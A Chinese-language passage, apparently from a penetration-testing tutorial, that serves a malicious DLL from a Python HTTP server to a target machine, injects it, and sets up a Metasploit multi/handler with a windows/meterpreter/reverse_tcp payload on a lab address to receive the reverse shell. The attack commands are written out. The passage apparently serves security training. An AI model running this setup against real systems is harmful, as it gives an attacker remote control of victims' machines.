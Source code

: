 （2）使用python命令(python3 -m http.server 8008)构建简单的服务，在目标机器上使用浏览器下载至桌面。在目标机器上注入此dll后，将与恶意主机建立连接。效果如下：

[![](assets/1700442730-396aabd6b6ec0eb1b6f035db2494ff9a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117162639-07a28fb0-8523-1.png)

（3）接下来将在Kali启动脚本开启监听，为后续操作建立通道。

执行如下命令：

```plain
msfconsole:开启msf框架；use exploit/multi/handler：生成处理器；set payload windows/meterpreter/reverse_tcp：指定监听的地址与端口
```

[![](assets/1700442730-3072645972d1298cdfb9ba867993814a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117162710-1a43e3b2-8523-1.png)

当payload在目标系统上执行时，它将启动一个 TCP 回连攻击者的机器。查看参数要求并运行命令：

```plain
set LHOST 192.168.230.155set LPORT 88run
```
